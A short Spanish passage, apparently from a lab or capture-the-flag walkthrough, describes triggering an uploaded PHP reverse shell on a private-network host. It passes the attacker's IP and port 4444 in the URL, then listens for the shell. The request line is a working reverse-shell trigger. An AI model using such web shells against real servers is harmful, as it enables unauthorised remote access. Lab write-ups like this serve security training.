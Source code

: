 <img src="reverseshell.PNG"  alt="Mi logo">

## Vamos a pasar como Parametro la ip y el puerto para obtener una revershell

```bash
192.168.56.106/uploads/revershell.php?ip=192.168.56.103&port=4444

```

<img src="reverseshell2.PNG"  alt="Mi logo">

## Ahora Escuchamos por el puerto y obtenemos una shell
